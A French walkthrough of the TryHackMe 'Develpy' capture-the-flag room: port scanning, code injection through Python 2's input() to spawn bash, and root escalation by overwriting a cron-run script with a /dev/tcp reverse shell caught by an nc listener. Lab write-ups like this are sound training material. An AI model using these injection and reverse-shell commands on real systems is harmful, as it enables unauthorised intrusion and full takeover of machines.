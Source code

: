 # Develpy-Write-up
Write-up Room Develpy Tryhackme


Cliquez [ici](https://tryhackme.com/room/bsidesgtdevelpy) pour accéder au room.

# Première étape : Identifier la cible et ses vulnérabilités.

On commence par un scan de port avec nmap.

```bash

nmap -sS -A -Pn [IP]
```


![](img/Develpy_scan.png?raw=true) 

On voit q'au niveau du port 10000 il y a un petit script python qui tourne.
On se connecte au serveur sur ce port pour voir ce que ça donne.


```bash

nc [IP] 10000
```
![](img/Develpy_nc0.png?raw=true)

![](img/Develpy_nc0-1.png?raw=true)

>Ce script est écrit en python mais dans quelle version de python?
>On voit aussi que le module input est utilisé.


**NameError: name 'a' is not defined**

On a l'exception suivante si on entre une lettre.
>Ce qui veut dire que python n'a pas pu identifier la variable ou le module "a" : On a donc pas définit une varibale ou un module de nom de "a"

**Il s'agit d'une vulnérabilité de python2 qui permet d'exécuter des codes sur la machine via python.**

# Deuxième étape : exploitation de vulnérabilité

Il y a plusieurs manières d'exploiter cette vulnérabilité.

```python
__import__('os').system('bash')
```
On va envoyer ce code ci-dessus pour exécuter la commande bash sur la machine.
Une fois que ça serra fait on aurra accès à la machine sur l'utilisateur sur lequel est exécuté le script.

![](img/Develpy_nc.png?raw=true)

On est mainténant loggé sur le user king.

```bash
cat user.txt
```
**Avec la commande ci-dessus on a le premier flag.**


# Troisième étape : Escalade de privilège


![](img/Develpy_nc_id.png?raw=true)

On est bien sur l'user king.

![](img/Develpy_nc_cron.png?raw=true)

Le fichier root.sh est executé à tout moment par le cron en root.
En modifiant son contenu on pourra donc exécuter un script pour se connecter au shell root.
Quand ça serra fait on aurra accès au root.

Démarrons une connexion en écoute(listener) sur notre terminal locale(machine de l'attaquant).
```bash
nc -l -vv -p 4444
```
4444 est le port que j'ai utilisé,vous pouvez le changer.

Supprimer le fichier root.sh.

Executer la commande ci-dessous pour recréer le fichier root avec le contenu **bash -i >& /dev/tcp/[Your IP]/4444 0>&1** afin d'établir la connection.

```bash
echo "bash -i >& /dev/tcp/[Your IP]/4444 0>&1" > root.sh

```

Après ça,une fois que le script serras réexécuter par le cron on aurra accès au root.

![](img/Develpy_nc_root.png?raw=true)

**Avec un   cat    /root/root.txt   on a le flag**
